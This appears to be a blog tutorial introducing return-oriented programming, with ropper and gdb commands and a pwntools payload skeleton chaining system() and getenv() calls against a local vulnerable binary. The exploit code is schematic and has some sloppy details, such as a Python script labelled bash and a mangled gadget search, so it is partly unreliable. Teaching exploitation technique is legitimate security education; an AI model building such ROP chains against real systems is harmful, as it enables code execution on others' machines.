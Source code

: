 ```yaml
---
title: Stack is the New RIP
date: '2023-10-08'
tags: ['security']
draft: false
summary: A Dive into Return-Oriented Programming. Turning stack into tool to control RIP
---
```



# **A Dive into Return-Oriented Programming**

It would be helpful to be familiar with the x86 calling conventions before reading this tutorial. Here is a good  [material](https://codearcana.com/posts/2013/05/21/a-brief-introduction-to-x86-calling-conventions.html).

With protection mechanisms like DEP/NX, OS can escape simple buffer overflow, but ROP and Ret2Libc attacks are still executable. While simply pointing RIP (64-bit instruction pointer) to shellcode address is not possible due to “writable pages are not executable” protection, ROP overcomes this by pointing RIP to already available short code sequences in process space (which are marked executable).

**Section 1**:  **Preliminaries**

**1.1 Stack and Function Calls:** Every program uses a stack frame to keep track of functions. As a function is called, its return address gets pushed onto the stack. And after function return execution flow (rip) jumps to ret address on stack. A simple buffer overflow can overwrite this return address, leading to potential code execution.

**1.2 Memory Protections**  Modern OSes incorporate DEP/NX, making the stack non-executable, thwarting direct code injection. Coupled with ASLR, which randomises memory addresses, exploit developers face daunting challenges.

**Section 2: Enter ROP**

Modern OS marks a writable process page as non-executable. Which means, you can not simply overwrite the buffer with shellcode and point RIP to it and make it run. ROP makes it possible by utilizing code snippets already present in process space.

_Effectively turning the stack into a tool to control RIP._

As shown in below image, the stack pointer (rsp) points to one such ROP sequence. Once the ROP sequence is hit, it will point instruction pointer (RIP) to whatever rsp is pointing to. Making Stack a tool to control RIP.

<figure text-align="center">
  <figcaption text-align="center">Single ROP</figcaption>
  <img src="https://miro.medium.com/v2/resize:fit:600/1*bGnW-gn6Im30zMmhCdx_0A.png" alt="Single ROP"/>
</figure>

**2.1 ROP Gadgets** are short code sequences, ending in “ret” instruction

```python 
pop rdi  
pop rsi  
ret
```

Above short sequence will jump the RIP to any address that comes next in the stack. And you can make it execute any arbitrary code, by chaining these ROP sequences. In below stack image, you can see 2 ROPs are chained together to make program execute two calls

-   system call
-   getEnv call

<figure>
  <figcaption text-align="center">2 ROP chained together to run system() and getEnv()</figcaption>
  <img src="https://miro.medium.com/v2/resize:fit:641/1*3S2ncFnEO-b8_6vsFBJf1Q.png" alt="Single ROP"/>
</figure>

**Section 3: ROP in Action**

**3.1 Find ROP gadgets in process-memory** Lets work with a vulnerable binary ./**target** Finding ROP sequences(gadgets) for making it run  **system**  call.  
Lets move to build a payload which will make our ROP succeed.

1.  Find ROP sequence addresses in your binary

```bash
find library through ldd  
$ ldd target  
  
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6   
libexpat.so.1 => /lib/x86_64-linux-gnu/libexpat.so.1   
/lib64/ld-linux-x86-64.so.2   

## take the library file path and run ropper   
ropper --file /lib/x86_64-linux-gnu/libc.so.6 --search "pop rop"  
  
0x0000000000006bf3: pop rdi; ret;
```

2.  Find function address and function arguments address, which you want to run as part of exploit. Lets run “system” call.
```bash
$(gdb) p system  
 0xf7fd6c70 system  
  
$(gdb) search "/bin/cat"  
```

3. You can’t use these addresses as is because of ASLR. So calculate the offset of these addresses with libc start address. Running  `vmmap`  in gdb will print address ranges used in current process. With help of these addresses, you can calculate the offset of  `system`  and  `/bin/sh`
```bash
pwndbg> vmmap  
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA  
.....  
0xf7dbf000 0xf7f94000 r-xp   1d5000 0      /usr/local/lib/i386-linux-gnu/libc-2.27.so  
0xf7f94000 0xf7f95000 ---p     1000 1d5000 /usr/local/lib/i386-linux-gnu/libc-2.27.so  
0xf7f95000 0xf7f97000 r--p     2000 1d5000 /usr/local/lib/i386-linux-gnu/libc-2.27.so  
0xf7f97000 0xf7f98000 rw-p     1000 1d7000 /usr/local/lib/i386-linux-gnu/libc-2.27.so  
.....  
0xfffdd000 0xffffe000 rw-p    21000 0      [stack]
```

4. Lets build complete payload which will run the exploit. In the below script, payload is built using pwntools.
```bash
from pwn import *  
  
payload = (0xdeadbeef)*(buf_size)  
## 1st ROP   
payload += p64(address(rop_gadget_1))  
payload += p64(address("/bin/cat"))  
payload += p64(0)  
payload += p64(address(system_call))  
  
## 2nd ROP   
payload += p64(address(rop_gadget_2))  
payload += p64(address(<env_var_name>))  
payload += p64(0)  
payload += p64(address(getenv_call))  
  
## run the process   
p = process("./target")  
## send payload   
p.send(payload)  
  
p.interactive()
```

The above payload will make a vulnerable binary run any arbitrary code (system call in our case), even when the binary is built with DEP/NX protections.

**Section 4: Mitigations and Beyond** Modern defenses like stack canaries and Control-Flow Integrity (CFI) can make ROP difficult, though not impossible.

JOP, COP, and SROP These are advanced cousins of ROP, developed to bypass even tougher defenses.

**References and Further Reading**

1.  [Return-Oriented Programming: Systems, Languages, and Applications](https://hovav.net/ucsd/dist/rop.pdf)
2.  [64-bit Linux Return-Oriented Programming](http://crypto.stanford.edu/~blynn/asm/rop.html)